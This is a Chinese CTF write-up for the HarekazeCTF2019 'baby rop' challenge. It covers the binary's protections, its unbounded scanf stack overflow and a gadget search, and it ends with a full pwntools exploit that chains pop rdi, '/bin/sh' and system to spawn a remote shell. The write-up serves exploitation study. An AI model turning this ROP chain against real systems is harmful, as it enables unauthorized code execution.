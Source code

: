```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019 baby rop
date: 2022-3-22 10:20:03
permalink: /pages/2e1547494524d187
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019 baby rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-10h]

  system("echo -n \"What's your name? \"");
  __isoc99_scanf("%s", &v4);
  printf("Welcome to the Pwn World, %s!\n", &v4);
  return 0;
}
```

程序表如下

![HarekazeCTF2019_baby_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/HarekazeCTF2019_baby_rop_1.png)

Gadget

```shell
ROPgadget --binary babyrop --string "/bin/sh\x00"
Strings information
============================================================
0x0000000000601048 : /bin/sh
```

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - plt表内有system
   - 存在/bin/sh字符串
   - No PIE
   - NX 保护
1. 思路：
   - 可栈溢出，有system，有/bin/sh，构造rop链布好栈帧输入即可

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop/babyrop'
io = remote('node4.buuoj.cn', 26190)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x10+8
system_addr = elf.plt['system']
bin_sh = 0x601048
pop_rdi_ret = 0x400683
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system_addr])
io.recv()
io.sendline(payload)
io.interactive()
```